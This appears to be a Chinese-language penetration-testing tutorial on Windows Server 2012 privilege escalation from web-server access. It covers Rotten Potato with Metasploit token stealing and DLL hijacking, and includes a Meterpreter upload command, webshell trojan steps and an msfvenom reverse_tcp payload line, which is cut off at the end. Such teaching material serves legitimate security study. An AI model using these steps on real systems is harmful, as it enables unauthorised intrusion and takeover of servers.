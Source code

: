 #补充说明:dll劫持提权及AlwaysInstallElevated等说明

dll劫持提权需要特定软件应用的控制权限及启用配合,复杂鸡肋

AlwaysInstallElevated提权默认禁用配置,利用成功机会很少

演示案例：-

Win2012-烂土豆配合令牌窃取提权-Web权限

如果单单用令牌窃取,权限太低,无法窃取。例如,如果是web权限(IIS类似的服务权限)

原理:参考上述图片内容,非服务类用户权限无法窃取成功(原理)

过程:上传烂土豆-执行烂土豆-利用窃取模块-窃取SYSTEM-成功

    upload /root/potato.exe C:\Users\Public

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiaww0picKJxZbDKyVOxXq9GyxPf2ia75PCkwcSI8vp61Jp2KjdAUK2DTaIw%2F640%3Fwx_fmt%3Dpng)

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiawu0bRHm7kIYaf04eu4cCiccHd2D7XgybmGzQR2nIxBmrnkMiaQT8w3jEQ%2F640%3Fwx_fmt%3Dpng)

通过webshell上传木⻢,并且执行

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiawm5cQjibSB4YEUBk5OxnKhWYEKRVACEcdvUXFKggUEErmBMQkiaO6ricicg%2F640%3Fwx_fmt%3Dpng)

执行之前先在msf上开启监听

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiawBmPylvZ6Hhv9BDdlDzlOW7BaLKgoyjosSic84xxgJImP8Khz1NNuf7A%2F640%3Fwx_fmt%3Dpng)

执行之后在msf看到会话

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiawX4Z7UibWUJiarazLHbWeSgRFic0DD1yValLQbhpkd0GKbk5Jlf2HXjWPA%2F640%3Fwx_fmt%3Dpng)

上传烂土豆并且执行(执行并非在webshell上执行,而是在MSF上执行)

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiaw0Bib1HluBL1vtzLAK9ZbAHx3elibeGpkzhYFEGOzV27emapZKoibnlKjA%2F640%3Fwx_fmt%3Dpng)

在msf中没有在C盘列表中看到potato.exe文件,但通过webshell我们可以知道我们已经上传了,在C盘根目录之后再使用令牌窃取

Win2012-DLL劫持提权应用配合MSF-web权限

原理:Windows程序启动的时候需要DLL,如果这些DLL 不存在,则可以通过在应用程序要查找的位置放置恶意DLL来提权。通常,Windows应用程序有其预先定义好的搜索DLL的路径,它会根据下面的顺序进行搜索:

1.应用程序加载的目录

2.C:\\Windows\\system32

3.C:\\Windows\\system

4.C:\\windows

5.当前工作目录Current Working Directory,CWD

6.在PATH环境变量的目录(先系统后用户)

过程:信息收集(搜集服务器上其他的第三方应用)-进程调试(分析这个程序启动时调用那些dll)-制作dll并上传-替换dll-启动应用后成功

msfvenom -p windows/meterpreter/reverse\_tcp
